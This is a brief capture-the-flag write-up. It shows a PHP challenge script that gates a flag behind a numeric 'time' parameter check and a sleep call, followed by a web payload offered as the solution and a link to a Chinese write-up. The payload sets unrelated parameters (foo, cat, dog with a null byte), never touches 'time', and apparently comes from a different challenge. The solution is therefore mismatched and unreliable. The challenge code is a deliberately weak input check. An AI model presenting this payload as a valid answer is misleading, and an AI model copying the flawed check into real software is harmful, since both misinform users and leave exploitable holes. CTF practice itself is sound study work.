 # Challenge
```php 
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

# Solution
payload：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```

# Refference
 + [chybeta: php是最好的语言](https://chybeta.github.io/2017/08/18/XNUCA-2017-Web%E4%B8%93%E9%A2%98%E8%B5%9B%E5%89%8D%E6%8C%87%E5%AF%BC-php%E6%98%AF%E6%9C%80%E5%A5%BD%E7%9A%84%E8%AF%AD%E8%A8%80-writeup/#more)
